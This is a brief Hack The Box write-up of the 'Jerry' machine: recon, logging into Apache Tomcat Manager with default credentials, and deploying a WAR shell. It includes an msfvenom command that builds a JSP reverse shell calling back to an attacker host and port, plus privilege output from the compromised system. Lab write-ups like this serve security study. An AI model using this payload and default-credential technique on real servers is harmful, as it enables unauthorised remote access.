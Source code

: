 # Jerry
Name: Jerry  
Date: 
Difficulty:  
Description:  
Better Description:  
Goals:  
Learnt:

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Nuclei found a default login for Tomcat Manager see [[tomcat-default-login-http___10.129.99.114_8080_manager_html]]. Nikto also

## Foothold

Using default credentials to access the Tomcat Manager, we can upload a WAR file to deploy a shell.
![footholdposs](Screenshots/footholdposs.png)

Using msfvenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f war -o shell.war
```

Uploaded the file and the clicked the /shell listing. 

![foothold](Screenshots/foothold.png)

## Well

You are `nt authority\system` so...
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeAssignPrimaryTokenPrivilege   Replace a process level token             Disabled
SeLockMemoryPrivilege           Lock pages in memory                      Enabled 
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeTcbPrivilege                  Act as part of the operating system       Enabled 
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Enabled 
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled 
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled 
SeCreatePagefilePrivilege       Create a pagefile                         Enabled 
SeCreatePermanentPrivilege      Create permanent shared objects           Enabled 
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeAuditPrivilege                Generate security audits                  Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled 
SeTimeZonePrivilege             Change the time zone                      Enabled 
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```

Flags are in `C:\Users\Adminstrator\Desktop\flags`
You can escape windows file names with spaces with a `"2 for the price of 1.txt"`

## References

[vk9-sec - Tomcat manager research](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)


      
